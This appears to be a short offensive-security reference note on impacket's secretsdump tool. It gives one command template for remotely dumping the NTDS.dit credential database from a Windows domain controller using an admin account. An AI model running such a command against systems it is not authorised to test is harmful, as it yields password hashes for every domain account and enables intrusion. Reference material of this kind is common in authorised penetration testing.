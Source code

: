 # impacket-secretsdump - *de facto tool for remotely dumping NTDS.dit from a Domain Controller*

## Dump NTDS.dit from domain controller with admin account and password

```bash
secretsdump.py $DNS_DOMAIN_NAME/$USERNAME:$PASSWORD@$DOMAIN_CONTROLLER_HOSTNAME_OR_IP
```
